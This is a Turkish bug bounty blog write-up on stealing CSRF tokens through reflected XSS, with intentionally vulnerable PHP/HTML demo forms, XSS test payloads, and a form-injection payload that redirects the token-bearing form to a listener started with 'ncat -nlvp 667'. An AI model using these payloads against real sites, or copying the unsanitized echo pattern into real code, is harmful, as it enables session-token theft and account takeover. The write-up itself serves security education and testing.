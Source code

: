 ```yaml
---
title: 'TR \| XSS ile CSRF Tokenlerini Ele Geçirme'
date: 2019-06-27
permalink: /posts/steal-csrf-tokens-with-an-xss/
tags:
  - xss
  - hack
  - steal csrf tokens
  - csrf bypass
  - csrf
  - bugbounty
  - bug bounty
  - write-up
  - poc
  - vulnerability
excerpt: 'XSS ile CSRF Tokenlerini Ele Geçirme'
---
```


*Bug Hunterlar* olarak biz, Bug Bounty ile uğraşırken pek çok farklı sistem ve farklı güvenlik önlemleri görüyoruz. Amacımız güvenli (gözüken) sistemlerde (gerçek ve etkisi olan) açıklar bulup, onları şirketlere bildirmektir. 


Yaptığımız testlerde bulduğumuz aynı tür açıklar her zaman aynı potansiyel zarara (impact) sahip olmayabiliyor. 

Örneğin;
Kurbana otomatik olarak çıkış yaptıran CSRF açığı (Bu genellikle açık kapsamına bile girmez.) ile kurbana otomatik olarak eposta ve parola değişikliği yaptıran CSRF (\*1) açığı elbette aynı potansiyel zarara sahip değildir.

  
Öyleyse, bu yazının konusuna gelelim. Elimizde iki adet XSS (Cross Site Scripting) açığı ve HTML kaynak kodundaki bir *input* tagına yansımış CSRF tokenlerimiz (\*2) var. 
  

## Normal XSS Açığı :  
Websitesinde bir arama kutusu olduğunu görüyoruz. Sitenin kaynak kodlarında CSRF Tokenlerin bulunduğunu ve bir inputun değerini, *GET* isteğindeki *search* parametresinden aldığını görüyoruz. (\*3)

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html	
<form>
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="text" name="search" value="<?php echo $_GET['search']; ?>">
<input type="submit" value="Submit">
</form>
```


Elimizde şu an için hiçbir açık yok fakat testlerden sonra görüyoruz ki *search* parametresi için hiçbir sanitizasyon (\*4) işlemi yapılmamış. Bu durumda diyebiliriz ki buradan bir XSS açığı çıkabilir. (\*5) Açığı bulmamız için GET metoduyla search parametresine bir payload (\*6) gönderiyoruz.
`"><h1>xss`  gönderdik ve kaynak kodunu inceledik : 

<img src="/images/Blog-1.png">


Evet, başarılı bir şekilde value attribute'inin tırnaklarını kapattık ve artık kendi zararlı kodumuzu site üzerinde çalıştırabileceğimizi gördük. Şimdi XSS'in varlığının kanıtı için herhangi JavaScript kodunu çalıştırmamız gerekiyor. Bu seferki payloadımız:
`"><script>alert(1)</script>` (\*7) gönderdik ve kaynak kodunu inceledik:

<img src="/images/Blog-2.png">


XSS açığını kanıtlamış olduk. Bu normal bir XSS saldırısıydı ve HTML ve JavaScript kodu çalıştırmak dışında pek de bir şey yapamadık.


## Kritik XSS Açığı : 
Normal XSS açığında gördüğümüz sayfayla aynı işlemi yapmasına rağmen inputların sırasının farklı olduğu bir sayfa. İlk açıkta gönderdiğimiz açık kodlarının bu sitede de çalıştığını görebiliyoruz. 

```php
<?php 
$benCSRFtoken = "samet";
$printMD5 = md5($benCSRFtoken);
?>
```
```html
<form>
<input type="hidden" name="search" value="<?php echo $_GET['search']; ?>">	
<input type="hidden" name="CSRFtoken" value="<?php echo $printMD5 ?>">
<input type="submit" value="Submit">
</form>
```



**Trick zamanı :**  
Örneklerle de gördüğümüz gibi iki tane XSS ve input taglarına yansıtılmış CSRF tokenlerini gördük. Eğer `<form>` tagı ve CSRF tokeninin yansıtılmış olduğu input tagının arasında XSS açığına sahipseniz, CSRF tokenlerini de çalabilirsiniz. Bu gerçek ve daha önce pek çok kez karşılaştığım bir senaryo ama sadece Kritik XSS açığında işe yarar. Neden mi ?

- Çünkü HTML dilinde değişken tanımlayıp sonra kullanma gibi bir ihtimaliniz yoktur. Yani yukarıda bir CSRF Tokenli input varsa ve siz aşağıdaki tagda kod çalıştırabiliyorsanız, o CSRF Tokenine XSS açığı ile erişemezsiniz. Elbette JavaScript dilinin yardımlarıyla `getElementById` gibi komutlarla da bu işi yapabilirsiniz. Fakat asıl nokta, bu işi en kısa ve en az JavaScript yardımıyla halletmektir. Güvenlik Header'larının kullanımının artmasıyla birlikte bu trick önem kazanıyor. (\*8)

-  Yukarıda da değindiğim gibi `<form>` ve `</form>` tagları arasında ve CSRF Token'in yansıtılmış olduğu ve herhangi bir tagın içinde çalışan bir XSS açığına olmanız gerekmektedir. Eğer bu ikisine de sahipseniz CSRF tokenlerini rahatlıkla çalabilirsiniz.



**O zaman exploit edelim :**  
Öncelikle XSS açığıyla CSRF tokenlerini çalabilmek için güzel bir payload yazmamız gerekiyor. Paylaodımızın  prensibi şu olmalı : 
- Daha önce açılmış olan formu kapat : `"></form>`
- Yeni bir form aç ve action (\*9) action attribute'üne dinlediğin ip ve port'u gir (\*10) : `"></form><form method="GET" action="http://127.0.0.1:667/bla.html">`
- Ncat ile seçili portu (667) dinle : `ncat -nlvp 667`
- Kullanıcıyı butona tıklat ve loglardan CSRF Token'ini çek : `| grep CSRF`


Exploit videosu burada :
<video width="500" controls>
  <source src="/files/Blog-1.webm" type="video/mp4">
</video>


**SONUÇ :**  
Değerli içerik taşıyan tagların ve açıklı tagların sırası bile bir açığın zararını arttıracak kadar önemli olabiliyor. Bu yüzden manuel testler yapmanız ve bunun gibi trickleri deneyerek öğrenmeniz çok önemli. Deneyebilmeniz için Github'a XSS açıklı 2 dosyayı da koyuyorum. Kendi tricklerimi ve işinize yarayabilecek trickleri paylaştığım Twitter ve LinkedIn hesaplarımdan bana ulaşabilirsiniz. 


[Github](https://github.com/sametsahinnet/XSS-Blog-Post)

  ----

**1** :
Bu açık hakkında yazımı okuyabilirsiniz : https://sametsahin.net/posts/account-takeover-via-reset-password/

**2** :
Anti-CSRF tokenleri, CSRF açığının oluşmasını engellemek için her istek veya kullanıcıya göre değişen uzun ve rastgele değerlerdir. Bu tokenlerin olmadığı ve esktra güvenlik önlemlerinin alınmadığı durumlarda CSRF açığı meydana gelebilir.

**3** :
Bu kısım temel Web bilgisine dayandığı için Google'dan bulabilirsiniz.

**4** :
Sanitizasyon, diğer adıyla filtreleme işlemleri, kullanıcıdan direkt olarak alınan girdilerin, açıklara dönüşmesini engellemek için kullanılan güvenli kod yazma tekniğidir. Pek çok açık gerekli sanitizasyon işleminin yapılmaması veya yeterince kapsamlı olmamasından kaynaklanır.

**5** :
Elbette XSS çıkar bu doğru. Yanlış olan oradan sadece XSS çıkacağı düşüncesidir. Özellikle bu işlere yeni başladıysanız sadece bir açık bulmaya çalışırsınız. Yapmanız gereken bir açıktan en fazla ne kadar ileriye gidebileceğinizi denemektir. Herkes XSS bulabilir ama sizin farkınız XSS'ten diğer açıklara ulaşmanız olmalı.

**6** :
Payload, açıkları bulmak ve sömürmek için hacker tarafından yazılan kodlardır. Payloadlara, açık kodları diyebiliriz. Ve payloadlar yeşil renkle ekrandan hızlıca akıp gitmez :)

**7** :
Normalde böyle bir payload çok az yerde çalışır. Payloadlarınızın kalitesini arttırmanız için elle yazmalı ve her tuşun kaynak kodunda yansımış olduğu yerleri dikkatlice incelemelisiniz. Yani her payloadınızla birlikte websitenin yanıtını kontrol etmelisiniz.

**8** :
Hayır, erişebilirsiniz. Ama bunun ihtimali düşüktür. 

**9** :
HTML'de nir form tagı açtığınız zaman onu kapatmanız gerekir. Biz kapanmış form (`</form>`) tagı enjekte ettiğimiz zaman görüntü şu şekilde olur : 


```html
<form>
<input type="hidden" name="search" value="query"></form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Enjekte ettiğimiz form tagı ile bir adet tamamen kapatılmış ve bir adet de açılış tagı eksik olan `</form>` tagımız olur. O zaman açılış tagımızı payloadımıza ekliyoruz ve son durumda iki adet form'umuz oluyor : 

```html
<form>
<input type="hidden" name="search" value="query">
</form>
```
ve
```html
<form>">
<input type="hidden" name="CSRFtoken" value="2e47d7f81970b3bb09d249a7de385dbc">
<input type="submit" value="Submit">
</form>
```

Baştan beri amacımız CSRF Tokeni içeren form'u kontrol edebilmekti. Action attribute'ünü değiştirdiğimiz anda artık CSRF Tokeni içeren her istek bizim loglarımıza düşecek ve oradan Tokeni elde edebileceğiz.

***10** :
CSRF Token'ine loglardan erişebilmemiz için logların bizde olması gerekir. Bu yüzden kendi localimizde rastgele bir portu dinliyoruz. Bu işlemi `ncat` ile yapabilirsiniz : 

`ncat -nlvp 667`





Değerli zamanınız için teşekkür ederim.  

Samet ŞAHİN   
